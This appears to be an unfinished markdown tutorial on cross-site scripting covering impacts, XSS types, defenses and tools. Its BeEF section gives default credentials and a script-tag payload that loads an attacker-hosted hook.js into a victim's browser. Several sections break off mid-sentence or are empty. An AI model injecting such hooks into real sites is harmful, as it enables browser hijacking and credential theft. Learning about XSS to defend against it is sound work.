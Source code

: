 # Cross-site-scripting


Cross-site-scripting, or XSS as it is sometimes abbreviated to, is an attack that let's the attacker execute javascript code in the browser of the victim.

## So, what's the worst that can happen?

The attacker is probably not that interested in changing the color or font of the website the victim is visiting. Although s/he could do that. The worst that can happen is probably the following:

1. Complete control over the browser
The attacker can access plugins. Like password managers. The attacker can trick the user into allowing webcam or audio. 

2. Session-hijacking/Cookie theft
This is when the attacker steals the cookie that is saved in the browser. Using this cookie the attacker can log in to the service as the victim, and thereby gain access to his/her account. If the victim is an admin that has extended privileges (uploading code, images, or whatever) this could lead to a compromise of the server itself.

3. Keylogger
The attacker can execute a keylogging-script that steals everything the user inputs in the website. This could be used to steal sensitive information, like passwords, credit cards information, chatlogs or whatever the user inputs.

4. Phishing
The attacker can insert a fake login. Image that you visit a site, and from that site you are able to login using your facebook or google-account. The attacker could spoof that so that when you enter your credentials, they are then sent to the attacker. 

5. Browser exploits
The script can redirect to a another page that issues an attack against the browser, possibly leading to total takeover of the machine.

### Types of XSS

1. Persistent
This is when the malicious code originates from the websites database. That means the attacker has managed to insert malicious code into the database. So every time the database serve that data the script will me executed. this is probably the most dangerous XSS, since it does not need to rely on social engineering.

2. Reflected
This is an attack where the script originates from the users request. This might seem a bit illogical, why would a user inject malicious code to himself? Well the code can 

3. DOM based
DOM-based attacks are when something is injected into javascript on the DOM. So, it does not go by the server. Because the code gets executed in the response.
Take a search-functionality for example. The users enters a search-parameter that gets sent to the server which might sanitize it or something. In the response the found search-items are sent, but not the search-query. But on the webpage the search query is exposed. "You searched for X" is shown. That is because it gets the search parameter from the url-parameter. By using `document.location.href` for example.

## Beef

Beef username/password: beef:beef
Beef is a great tool for attacking browsers. 

After starting it up you can log in to the panel. Then you get someone to execute the hook.
Hook URL: http://172.17.15.118:3000/hook.js
UI URL:   http://172.17.15.118:3000/ui/panel

By injecting the hook into a XSS. Like this

```javascript
<script src="http://172.17.15.118:3000/hook.js"></script>
```


### How does it really work?
Let's look at a practical example.


### Protect yourself

The problem with XSS is that it is a bit hard for the users to protect themselves. If there is a problem witht the website there is not that much the user can do.

One can always use noscript to block all javascript code. But that pretty much destroys the whole experience with using the internet.

### Protect your website

There are mainly two ways to protect against ** encoding ** and ** sanitizing **.

#### Encoding


Of course the way to protect your website is to sanitize all input. 

You can also set the response-header like this:
`-xss-protection:"1; mode=block"`

For nodeJs you can use the helmet-module to do this.
https://www.npmjs.com/package/helmet


### Risks for the attacker
The obvious risk is that the attacker must expose a server. 

### Tools

#### XSSER

This tool tests a lot of 

`xsser --gtk`


#### Xssposed
This is a tool found in recon-ng. It basically just check this (https://www.openbugbounty.org/
) database to see if anyone has reported a xss for the website.





###References:

http://brutelogic.com.br/blog/probing-to-find-xss/
http://excess-xss.com/

